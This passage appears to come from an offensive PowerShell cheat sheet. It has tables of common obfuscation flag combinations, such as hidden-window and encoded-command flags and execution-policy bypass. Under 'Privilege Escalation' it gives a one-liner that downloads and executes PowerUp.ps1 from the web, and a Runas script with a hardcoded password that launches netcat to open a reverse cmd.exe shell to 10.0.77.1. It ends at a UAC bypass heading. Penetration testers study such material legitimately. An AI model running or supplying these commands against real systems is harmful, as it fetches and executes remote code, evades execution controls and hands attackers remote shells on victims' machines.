 **Uses Single-Threaded**

| **Flag** | **Count** | **% of Total** |
| -------- | --------- | -------------- |
| "-sta"   | 219       | 5.34%          |

**Combine**

| **Flag Combination**                               | **Count** | **% of Total** |
| -------------------------------------------------- | --------- | -------------- |
| "-window hidden -enc"                              | 1,242     | 30.29%         |
| "-enc"                                             | 986       | 24.04%         |
| "-nop -noni -enc"                                  | 736       | 17.95%         |
| "-NoP -sta -NonI -W Hidden -Enc"                   | 206       | 5.02%          |
| "-EncodedCommand"                                  | 169       | 4.12%          |
| "-ep bypass -noni -w hidden -enc"                  | 102       | 2.48%          |
| "-NoP -NonI -W Hidden -Enc"                        | 60        | 1.46%          |
| "-nop -win hidden -noni -enc"                      | 57        | 1.39%          |
| "-executionpolicy bypass -windowstyle hidden -enc" | 51        | 1.24%          |
| "-nop -exec bypass -win Hidden -noni -enc"         | 41        | 1.00%          |

## Privilege Escalation

Privilege Escalation with PowerUp

```powershell
#Executes all functions that check for various Windows privilege escalation opportunities
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Invoke-AllChecks
```

Runas

```powershell
#Run nc64.exe (Netcat) as pcadmin account
$username = 'pcadmin'
$password = 'qwerty1234'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath 'C:\nc64.exe' -NoNewWindow -Credential $credential -ArgumentList ("-nc","10.0.77.1","8443","-e","cmd.exe") -WorkingDirectory C:\Users\Public
```

## UAC Bypass

UAC bypass with **fodhelper.exe/ computerdefaults.exe**
